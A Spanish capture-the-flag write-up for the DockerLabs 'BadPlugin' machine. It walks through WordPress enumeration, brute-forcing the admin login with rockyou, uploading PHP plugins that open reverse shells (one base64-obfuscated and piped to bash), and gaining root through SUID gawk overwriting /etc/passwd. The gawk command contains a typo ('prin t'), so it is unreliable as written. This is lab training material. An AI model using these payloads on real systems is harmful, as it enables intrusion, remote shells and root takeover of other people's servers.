___
Tags: #wordpress #privesc #plugin #gawk
___
# Badplugin

## Información General

**- Dificultad:** Easy <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.** plugin docker, privesc (suid gawk) <br>
**- Fecha de resolución:** 06/03/2026 <br>
**- Enlace:** https://dockerlabs.es <br>

## Reconocimiento

**Dockerlabs** nos proporciona la ip de la máquina objetivo **192.168.1.100**

En el archivo **/etc/hosts** tenemos que poner 192.168.1.100 con el nombre **escolares.dl**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 192.168.1.100
```

**Su el ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.1.100
```

<p align="center"> 

</p>

| Open port | Service | Version                        |
| --------- | ------- | ------------------------------ |
| 80        | http    | Apache httpd 2.4.58 ((Ubuntu)) |

### Enumeración web

#### Gobuster

```
gobuster dir -u http://192.168.1.100 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

Luego hago enumeracion web a la ruta de **wordpress**

```
gobuster dir -u http://192.168.1.100/wordpress -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

Esta ruta seria el login WordPress

```
http://escolares.dl/wordpress/wp-admin/
```

<p align="center"> 

</p>

#### wpscan

```
wpscan --url http://escolares.dl/wordpress/ -e u,p   
```

Nos ha detectado plugins

<p align="center"> 

</p>

También, usuarios

<p align="center"> 

</p>

Realizamos un ataque de fuerza bruta con wpscan 

```
wpscan --url http://escolares.dl/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```

<p align="center"> 

</p>

## Explotación

### Explotación 1

En el apartado **plugins** - **añadir nuevo plugins** - **subir plugin**

<p align="center"> 

</p>

Ahi es donde subiremos nuestro payload, que sera el siguiente:

#### Reverse shell 

```php
<?php
/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/

exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.1.1/4443 0>&1'");

?>
```

La ip que se escogeria sería este:

```
ifconfig
```

<p align="center"> 

</p>

Escogemos esa ip **192.168.1.1** , porque la ip de la maquina es **192.168.1.100**, como esta en otro segmento... porque si usamos la que normalmente solemos usar, no se conectará

### Explotación 2

#### Reverse shell 2

```php
<?php
/*
Plugin Name: Hack 172.17.0.1
Description: Reverse shell al puerto 4444 cuando se accede a http://escolares.dl/wordpress/wp-content/plugins/shell/shell.php
Version: 99999999.0
Author: empe
*/
?>

<?php
system("echo 'base64prompt' | tee /tmp/shell; base64 -d /tmp/shell | bash");
?>
```

Para conseguir base64prompt usaremos el siguiente comando: 

```
echo "bash -c '/bin/bash -i >& /dev/tcp/<$IP>/4444 0>&1'" | base64
```

Por tanto quedaría así:

```
echo "bash -c '/bin/bash -i >& /dev/tcp/192.168.1.1/4444 0>&1'" | base64
```

YmFzaCAtYyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS4xLzQ0NDQgMD4mMScK

Por tanto el payload malicioso, quedaría asi:

```php
<?php

/*
Plugin Name: Hack 172.17.0.1
Description: Reverse shell al puerto 4444 cuando se accede a http://escolares.dl/wordpress/wp-content/plugins/shell/shell.php
Version: 99999999.0
Author: maciiii___
*/

?>

<?php
system("echo 'YmFzaCAtYyAnL2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS4xLzQ0NDQgMD4mMScK' | tee /tmp/shell; base64 -d /tmp/shell | bash");
?>
```

## Explotación Posterior

### Tenemos que conseguir una conexión más estable

#### TTY

```
script /dev/null -c bash
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

```
stty rows 44 columns 184
```

Con este comando pongo la terminal al usar nano más grande.

### Escalada de Privilegios

#### Segundo comando:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

La idea es usar el binario **/usr/bin/gawk** para escalar privilegios

Antes de usar este comando 

<p align="center"> 

</p>

```
/usr/bin/gawk -F 'x' '{prin t $1 $NF > "/etc/passwd"}' /etc/passwd
```

Luego de usarlo

<p align="center"> 

</p>

**Funciona** porque `/usr/bin/gawk` tiene **permisos SUID root** (`-rwsr-xr-x`). Cuando un usuario normal lo ejecuta, **se ejecuta como root**.

El objetivo es conseguir sobrescribir `/etc/passwd` limpiamente con `$1 $NF` lo que hace es que el sistema se rompe para nuevos logins.

**Importante el comando solo se usa UNA VEZ, ya que una segunda vez CORROMPE EL SISTEMA Y NO TE DEJA ACCEDER COMO ROOT**

```
su root
```

<p align="center"> 

</p>

## Conclusión

La máquina **BadPlugin** de DockerLabs ha sido bastante engorrosa.

**Punto clave:** Para la reverse shell vía plugin, hay que fijarse **muy bien** en qué red está la máquina, porque si no están en el **mismo segmento de red**, la conexión falla directamente.

**Escalada rara:** El privesc con `gawk` SUID sobrescribiendo `/etc/passwd` para corromperlo y mantener shell root ha sido **extraño** - típico exploit de "rompo el sistema para todos menos para mí", pero la sintaxis del AWK con redirección y el comportamiento al ejecutarlo varias veces (appending basura) ha sido confusa.